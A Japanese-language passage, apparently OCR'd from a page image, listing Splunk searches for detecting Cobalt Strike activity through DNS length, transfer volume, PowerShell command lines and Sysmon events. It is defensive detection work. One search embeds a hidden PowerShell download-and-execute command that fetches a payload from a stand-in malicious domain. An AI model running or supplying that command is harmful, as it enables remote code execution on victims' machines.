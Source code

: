 **例**: 異常に長いDNSクエリを検索する

```plaintext
index=dns_logs | search length(query) > 50
```

### 5. **異常なデータ転送量の検出**

Cobalt Strikeのセッションは異常なデータ転送量を示すことがあります。

**例**: 大量のデータ転送が行われているセッションを検索する

```plaintext
index=network_logs | stats sum(bytes) by src_ip, dest_ip | where sum(bytes) > 1000000
```

### 6. **コマンドやアクティビティの検出**

Cobalt Strikeが実行するコマンドやアクティビティを検出するために、ログに記録されたコマンドを検索します。

**例**: 特定のコマンドが含まれるログを検索する

```plaintext
index=sysmon_logs | search "cmdline=\"powershell -nop -w hidden -c iex (New-Object Net.WebClient).DownloadString('http://maliciousdomain.com/payload')\""
```


Cobalt Strikeのイベントログ検索

1. Sysmonログでの検出

Sysmon（System Monitor）は、Windowsイベントログを詳細に記録するツールで、Cobalt Strikeのアクティビティを検出するのに役立ちます。

1.1 PowerShellコマンドの監視

Cobalt StrikeはPowerShellコマンドを実行することがあります。SysmonイベントID1（プロセス作成イベント）でPowerShellコマンドを監視します。

例: PowerShellコマンドラインにiex（Invoke-Expression）が含まれるイベントを検索する

index=sysmon_logs sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=1 | search CommandLine="iex*"

1.2 ネットワーク接続の監視

SysmonイベントID3（ネットワーク接続イベント）でCobalt StrikeのC2トラフィックを検出します。

例: 特定のポートへのネットワーク接続を検索する

index=sysmon_logs sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=3 | search DestinationPort=50050

1.3 ファイル作成イベントの監視

SysmonイベントID11（ファイル作成イベント）で、Cobalt Strikeのペイロードやマルウェアファイルの作成を検出します。

例: 特定のファイルパスに関連するイベントを検索する

index=sysmon_logs sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=11 | search FileName="*.exe"

2. Windowsイベントログでの検出
